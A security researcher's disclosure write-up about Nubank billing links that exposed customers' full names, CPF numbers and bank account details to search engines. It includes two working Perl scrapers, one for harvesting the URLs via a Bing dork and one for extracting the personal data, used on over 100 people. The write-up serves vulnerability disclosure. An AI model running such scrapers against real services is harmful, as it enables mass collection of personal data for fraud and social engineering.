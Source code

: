 ```yaml
---
layout: content
title: 'A little case about scraping personal data exposure in the web'
description: 'Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


### Summary

Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.

*Disclaimer:* the responsible company was informed about all details contained in this publication in the shortest possible time and it positioned itself in an ethical and transparent manner, demonstrating due attention and commitment. During all tests, no system was invaded or breached, in addition, the company performed some of the necessary actions/modifications to minimize any undue action that explores the context covered in this publication. Other recommendations to mitigate the vulnerabilities were made by me, however the company did not think it necessary to apply them.

---

### Description

Within the Nubank mobile application, there is a feature called "Charge", this feature comes down to you filling in a value of your desire (if you want) and clicking confirm:

![](/images/publications/nubank-scraping/creating-a-link.png)

After that, a QR Code is generated and you have the option to share it or send the bill through another application, such as WhatsApp:

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)

When I came across this link (the content of the QR Code is also the link), I decided to open it in the browser to take a look and this was the result:

![](/images/publications/nubank-scraping/personal-infos.png)

I came across my full name, CPF, my bank account number and branch exposed without any kind of control, the only requirement to get my information through Nubank was to have such a URL.

Such URL is generated exclusively by the client in your application and it is also up to the client to define how and with whom to share each generated URL.

Convinced to analyse whether this was really possible, I decided to create a *dork* to try to find more of these URLs, this time exposed on the Internet and this was the result:

![](/images/publications/nubank-scraping/google-dorks.png)

Surprised by the fact that Nubank allowed Google and other search engines to index these pages, I decided to validate that such URLs were being published on other channels, and the first channel I decided to validate was Twitter:

![](/images/publications/nubank-scraping/twitter-links.png)

And these are just some of the results, on Twitter you could see that some people use this functionality to receive donations and others use it in very general ways...

---

### Proof of Concept

Convinced to demonstrate an impact of the abuse of this functionality, I decided to create a proof of concept. The first part of this PoC boiled down to building code that would be able to use a search engine to collect as many URLs as possible, so I did a simple *scraper* for Bing:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw( url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        my $mech = WWW::Mechanize -> new();
        my %seen = ();

        $dork = url_escape($dork);

        for my $page (0 .. 10) {
            my $url = "http://www.bing.com/search?q=${dork}&first=${page}0";
            $mech -> get($url);
            my @links = $mech -> links();
                        
            foreach my $link (@links) {
                $url = $link -> url();
                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

main();
exit;
```

From that code, I was able to collect 100 valid URLs:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

After having all these URLs in a .txt, I had to build another *scraper* that scraped data on the Nubank page:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp($_);

            my $userAgent = Mojo::UserAgent -> new();
            my $response  = $userAgent -> get($_) -> result();

            if ($response -> is_success()) {
                my $account = $response -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close($urls_filehandle);
    }
}

main();
exit;
```

And this was the result:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, Full name, account number and branch of more than 100 people, in just a few minutes and a few lines of code.

---

### Impact

The possibility of an attacker abusing this functionality available within Nubank systems is relatively high, as it can expose a huge amount of users, leaking some sensitive information as illustrated above, in addition an attacker who has such information at hand, can use it to strengthen/create a social engineering approach.

---

### Conclusion

Through this analysis it is possible to affirm that a convinced person could implement several *scrapers* in order to map Nubank billing URLs and later collect personal information present in them. This article had PoC as one of those implementations, using a search engine, but there is still room for other channels, such as social networks (Twitter, Facebook and others). What could be used to take these people to exposure or risk scenarios, such as being victims of *spear phishing*/social engineering.

---

### References

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)
